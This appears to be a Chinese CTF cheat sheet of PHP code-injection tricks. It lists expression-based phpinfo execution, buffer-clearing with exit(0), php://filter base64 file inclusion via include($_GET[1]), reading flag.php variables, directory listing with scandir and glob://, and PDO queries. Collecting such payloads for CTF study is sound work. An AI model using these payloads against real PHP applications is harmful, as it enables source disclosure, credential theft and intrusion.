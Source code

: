 ### PHP特性命令

`return 1-phpinfo()-1`这样可以执行命令，中间的字符'-'可以替换成其他字符

`return 1?phpinfo():1`三目运算符，可以执行命令

### 中断进程
`ob_get_contents();``ob_end_clean();`获取缓冲区内容，清除缓冲区内容，后面再跟一个替换内容的函数，我们传参可以直接在后面跟 `exit(0);`退出进程，停止执行后面点函数


### 直接函数使用

`echo highlight_file(xxx.php);`

`show_source(),file_get_contents(),readfile()`

### 造参传参
```php
include($_GET[1])
1=php:\/\/filter/read=convert.base64-encode/resource=xxx.php
```

### 包含指定文件变量
```php
include('flag.php');echo $flag;`
```

### 变量输出
```php
include('flag.php');var_dump(get_defined_vars());
//先包含文件，在不知道对应变量名的情况下输出所有变量
如果是txt文本，包含之后默认自动输出，没有php标签
```
### 目录查看
```php

var_dump(scandir("/"));
print_r(scandir("."));
var_export();
如果scandir目录被封就用*glob://*协议

$c=$it=new DirectoryIterator("glob:///*.txt");//找到所有txt文件
foreach($it as $f) {//遍历输出
    printf("%s\n", $f->getFilename());//输出文件名
}exit();
```

### 数据库对象PDO
`PDO` :PHP数据对象提供了一个数据访问抽象层，不管使用哪种数据库，都可以用相同的函数（方法）来查询获取数据。
```php
try {
    $dbh = new PDO($dsn, $user, $pass); //初始化一个PDO对象
    echo "连接成功<br/>";
    /*你还可以进行一次搜索操作
    foreach ($dbh->query('SELECT * from FOO') as $row) {
        print_r($row); //你可以用 echo($GLOBAL); 来看到这些值
    }
    */
    $dbh = null;
} catch (PDOException $e) {
    die ("Error!: " . $e->getMessage() . "<br/>");
}

```
